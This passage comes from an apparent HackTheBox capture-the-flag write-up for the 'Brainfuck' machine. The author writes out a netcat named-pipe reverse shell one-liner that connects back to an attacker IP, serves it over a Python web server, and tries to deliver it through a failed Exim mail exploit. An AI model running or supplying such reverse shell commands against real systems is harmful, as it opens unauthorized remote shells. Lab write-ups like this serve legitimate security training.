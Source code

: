 
Here is the setup:


I create a reverse shell script on my Kali machine and host it up via a python web server:

```bash
echo "rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 443 >/tmp/f" > htb.sh
chmod +x htb.sh
python3 -m http.server 80
```

Then, I connect to the SMTP server and send an email as such:

![email-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Brainfuck/img/mail-05.png)


The `orestis@brainfuck.htb` address I got from the Nginx server which I will show later, but in general this is how you would exploit this. 


The main issue is that right at the top, based on the SMTP banner we can tell this is not an Exim SMTP server, but rather a Postfix server. An Exim banner looks somehitng like this `220 host ESMTP Exim 4.72 ...`. 


The other issue is that even though my email was accepted, I dont see any requests to my python server to retrive the `htb.sh` script. 


At this point I deicded to bail on this vulnerability, I tried searching for other possible exploits for the `Dovecot` software but I didn't find anything super useful. 


In terms of SMTP/POP3/IMAP specific enumeration, there are stuff we can do, like trying to brute force credentials of users on the email server, then trying to pull thier email queues, but I don't think it's the correct way forward. The Nginx server looks much more intersting, and we have some leads on it which I will show right now. 
